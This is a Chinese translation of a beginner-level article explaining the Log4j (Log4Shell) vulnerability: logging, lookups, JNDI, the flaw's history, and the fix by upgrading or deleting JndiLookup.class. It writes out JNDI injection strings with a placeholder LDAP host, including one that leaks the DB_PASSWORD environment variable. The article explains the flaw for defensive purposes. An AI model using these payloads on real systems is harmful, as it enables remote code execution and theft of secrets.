

# Log4j 虚拟安全漏洞

> 原文：<https://levelup.gitconnected.com/log4j-security-vulnerability-for-dummies-1a3e1269aac0>


马库斯·斯皮斯克在 [Unsplash](https://unsplash.com/s/photos/hack?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) 上的照片

如果您在软件行业工作，您肯定听说过 log4j 库中发现的安全漏洞。即使您没有涉足软件行业，也很有可能听说过这个漏洞，因为它已经被不同的新闻媒体广泛报道。在本文中，我将尝试简化 log4j 漏洞，该漏洞首先在《我的世界》被发现，并在整个软件行业引发了冲击波。

## log4j 是什么？

在讨论 log4j 之前，我们需要知道什么是日志记录。通过日志记录，一种方法是记录应用程序在运行状态下完成的活动，活动可以是任何内容，可能您希望在 API 被触发时记录 API 的所有输入，也可能您希望记录 API 的响应以及所用的时间等等。日志是维护实时软件的最重要的特性之一。如果有适当的日志记录，我们可以立即找到并修复错误。

Log4j 是一个用 Java 编写的开源库，广泛用于日志记录。如果一个人正在使用任何 java 应用程序，那么他很有可能在内部使用 log4j。您可能想知道为什么我们需要一个用于日志记录的库。我的意思是，如果一个人只想记录活动，他可以只使用“System.out.println”并打印任何他想打印的内容。嗯，没有人阻止您使用“System.out.println”，但是它将只在控制台上打印日志，或者如果您使用“System.out()”，您可以将“System.out.println”的输出从控制台重定向到文件。但是，在大多数情况下，您需要一些额外的日志记录功能，例如，您需要将日志写入文件并每天创建一个新的日志文件，或者您可能希望具有不同的严重性，例如，在生产环境中，您希望只打印重要的事件，但在测试环境中，您需要打印非常精细的日志，以便轻松找到错误。从技术上来说，如果一个人想自己实现一切都是可能的，但为什么要重新发明轮子。Logs4j 提供了一个非常好的接口，提供了几乎所有你能想到的特性。

log4j 支持的众多特性之一是“[消息查找替换](https://logging.apache.org/log4j/2.x/manual/lookups.html)”。在这个特征 log4j 过程中，一个特定格式的字符串，该格式为$ { prefix:variable name }；其中根据前缀 log4j 标识变量名应该在哪个特定上下文中被评估。举个例子，如果您想打印环境变量 DB_USER 的值，您可以简单地打印它，如下所示:

```
logger.error("Database user name is :{}","${env:DB_USER}")
```

Log4j 为不同的上下文提供了许多不同的前缀，如下表所示。



您是否想知道，如果日志是如此重要的事情，为什么我们必须依赖一些外部开源库？Java 不应该提供开箱即用的东西吗？

事实证明，Java 已经有一个内置的日志框架，名为 [Java 日志 API](https://docs.oracle.com/javase/6/docs/technotes/guides/logging/) ，有时也被称为 JUL。我们不使用 JUL 的最大原因之一是它的性能明显较慢。

## 什么是 JNDI？

即使是最高级的软件开发人员也很难理解 JNDI。因此，我将尝试向您介绍 JNDI 的基本概念和 JNDI 的一些特征，这将有助于您理解 log4j 漏洞。首先，根据维基百科:

> **Java 命名和目录接口** ( **JNDI** )是一个用于目录服务的 Java API，它允许 Java 软件客户端通过名称发现和查找数据和资源(以 Java 对象的形式)。

简单地说，在 JNDI 的帮助下，您可以从远程位置获取对象，有点像您在响应 REST API 时获取对象。JNDI 提供了多种从远程位置获取对象的机制。在所有机制中，我们将重点关注 2 种机制，即 RMI 和 LDAP，它们允许开发人员通过[目录](https://docs.oracle.com/cd/E19396-01/817-7619/intro.html)服务获取 java 对象。JNDI 为 LDAP 和 RMI 提供的一个有趣的特性是，服务器可以发送. class 文件的 URL，而不是直接发送对象。我不会说太多细节，比如为什么 JNDI 会有这个功能，它内部是如何工作的，但是你可以从[这里](https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html)阅读。简而言之，如果通过 LDAP 服务器返回的对象是" [javax.naming.Reference](https://docs.oracle.com/javase/7/docs/api/javax/naming/Reference.html) "类型，那么 java 可以从 object 中定义的 URL 加载 java 类，并可以在其 JVM 中执行该类文件。如果不遵循适当的预防措施，这种特征会非常危险。如果某个恶意用户可以破坏您的应用程序所连接的 LDAP 服务器，他就可以在您的服务器内执行他的程序，导致[远程代码执行](https://www.netsparker.com/blog/web-security/remote-code-evaluation-execution/)。启动自己的 LDAP 服务器非常容易，它可以强制应用程序执行任何。您喜欢的类文件，这种 LDAP 服务器的代码在 GitHub 中很容易找到，一个这样的例子是 [marshalsec](https://github.com/mbechler/marshalsec) 。我强烈建议你仔细阅读一下 marshal sec repo 的自述文件。

现在你已经知道了什么是 log4j 和 JNDI，也知道了如何利用 JNDI 来危害你的应用程序的安全性。

现在，这些无聊的解释已经足够了，您现在已经知道了理解 log4j 漏洞所需的一切。所以让我们直接进入 log4j 的故事。

Log4j 从 2001 年初开始作为一个开源项目提供，它的积极开发一直持续到 2005 年左右。2006 年出现了一个名为“LogBack”的新项目，据说它是 log4j 的继任者，不仅性能更好，而且生活质量也更高。在 2012 年，log4j 突然复活了，因为一些开发人员一起重写了 log4j 的代码，并发布了该库的 alpha 版本，现在命名为 log4j2。两个月后，一个测试版也发布了，在这个阶段，一个新的功能被要求得到 JNDI 的支持。您想知道为什么需要这个特性吗？用户故事中提到的用例是，您应该能够在不同的文件中编写与特定 web 上下文相关的日志。现在你可能想知道 JNDI 将如何帮助它？为了不让你感到困惑，我们改天再谈吧。但是，你应该知道的是，这个功能只有极少数用户使用。不管怎样，让我们继续，这个特性被接受并在 2013 年 7 月被添加到主代码中，这是一个让整个世界着火的特性。添加了这个特性后，将会运行如下内容:

```
logger.info("remote object {}",${jndi:ldap://URL_OF_LDAP_SERVER})
```

这就对了，现在你知道它的弱点了。还在迷茫？想象一下，你有一个网页，有一个输入框，输入一个字符串，在数据库中搜索，并在网页上显示结果。现在，记录来自用户的输入是非常常见的做法。您的代码中会有类似的内容。

```
logger.info("Searching {} in database",inputString)
```

你现在明白问题了吗？还是不行？假设有人在搜索框中输入“$ { JNDI:LDAP://URL _ OF _ HIS _ LDAP _ SERVER }”。现在，log4j 将尝试使用恶意用户提供的 LDAP 服务器的 URL 进行连接。现在黑客可以发送一个“ [javax.naming.Reference](https://docs.oracle.com/javase/7/docs/api/javax/naming/Reference.html) 类型的对象，该对象将指向他想在你的机器上执行的类。他可以在你的服务器上为所欲为？开计算器？肯定没问题；安装任何恶意软件，肯定也有可能；拿个反壳？可以在几分钟内完成。你现在知道这个漏洞有多危险了。

什么？你真的想看到有人利用这个漏洞的演示吗？没问题，看这个[视频](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1056s)？

好吧，这看起来很龌龊的漏洞？JNDI 的事情非常危险？java 不应该直接去掉这个特性吗？哦不！java 提供了向后兼容性，也就是说，多年前编写的任何代码在最新版本的 Java 上大部分时间都可以工作，甚至不需要修改任何一行代码。然而，Java 已经知道 JNDI，所以他们已经发布了一个补丁，禁止从任何外部 URL 加载. class 文件。对于 RMI 协议，它是固定的，但在 LDAP 中仍然存在某些远程代码执行代码的情况，所以有人为它打开了一个 [bug](https://bugzilla.redhat.com/show_bug.cgi?id=1639834) 。最后，在 java 版本 11.0.1、8u191、7u201 和 6u211 中。默认情况下，来自外部 URL 的类文件被禁用。

在你因为使用一个不能远程执行代码的 java 版本而高兴之前，先不要高兴。如果你使用的是正确的 java 版本，它可以将你从最恶劣的攻击中解救出来，但是你的系统仍然容易受到攻击。您可能想知道，如果代码无法执行，系统如何仍然容易受到攻击。让我给你一个提示；java 只禁止从外部 URL 加载类。还在迷茫？你仍然可以连接 LDAP 服务器，如果返回的对象是" [javax.naming.Reference](https://docs.oracle.com/javase/7/docs/api/javax/naming/Reference.html) "类型，那么 java 不会加载这个类，因为这个 URL 不可信。好吗？那么问题是什么呢？嗯，你可以连接 LDAP 服务器是一个问题。怎么会？在输入中，可以发送类似“$ { JNDI:LDAP://URL _ OF _ LDAP _ SERVER/$ { env:DB _ PASSWORD } }”的内容。现在，当 java 调用 LDAP 服务器时，它还会发送环境变量 DB_PASSWORD 的值。如果你曾经在 IT 行业工作过，你就会知道我们有时会以环境变量的形式存储非常重要的信息，比如数据库细节。如果这些关键信息被泄露，将会带来巨大的安全挑战。那么补救办法是什么呢？

根据 log4j 维护者的说法，主要修复是将 Log4j 版本更新到 2.3.2(针对 Java 6)、2.12.4(针对 Java 7)或 2.17.1(针对 Java 8 及更高版本)。如果无法更新版本，只需删除执行 JNDI 查找“`*zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class*`”的类。

# **结论**

Log4j 漏洞告诉我们，尽管开源库很棒，因为有数百名开发人员在开发一个特定的库，但其中仍然可能存在漏洞。然而，甚至每个人都可以看到源代码，但是只有当一个具有正确知识的人查看正确的代码行时，一些错误才会被修复。那么我们应该停止使用开源库吗？肯定不是！

此外，作为人类，我们有将错误推给别人的倾向，许多人会说，一个只会被一小部分用户使用的特性不应该被接受。然而，我们不知道开发者为什么接受这个改变，也许他们认为这会给用户带来更多的价值。此外，人们还应该记住，为这些开源库工作的人是没有报酬的。大公司通过使用这些图书馆赚取了数百万美元，难道这些公司不应该为他们使用的服务支付一些钱吗？

最后我会留给大家一些问题，log4j 漏洞从 2013 年就存在，直到 2021 年底才被发现。我们可以假设没有人知道这个漏洞的存在吗？或者可能一些组织/政府机构已经知道了。在各种不同的开源库中还存在多少这样的漏洞？

# 参考

[](https://research.nccgroup.com/2021/12/12/log4j-jndi-be-gone-a-simple-mitigation-for-cve-2021-44228/) [## log4j-JNDI-be-gone:CVE 的一个简单缓解方案-2021-44228

### 你好，互联网，这是艰难的一周。你可能已经知道，基本上世界上每个 Java 应用程序都使用…

research.nccgroup.com](https://research.nccgroup.com/2021/12/12/log4j-jndi-be-gone-a-simple-mitigation-for-cve-2021-44228/) [](https://research.checkpoint.com/2021/the-laconic-log4shell-faq/) [## 简洁的 Log4Shell FAQ - Check Point 研究

### 什么是 Log4Shell (CVE-2021-44228)？log4j2 中的远程代码执行漏洞，log4j 2 是一个流行的日志框架，用于…

research.checkpoint.com](https://research.checkpoint.com/2021/the-laconic-log4shell-faq/) [](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) [## 利用 Java | Veracode 中的 JNDI 注入

### Java 命名和目录接口(JNDI)是一个 Java API，允许客户端发现和查找数据和对象…

www.veracode.com](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)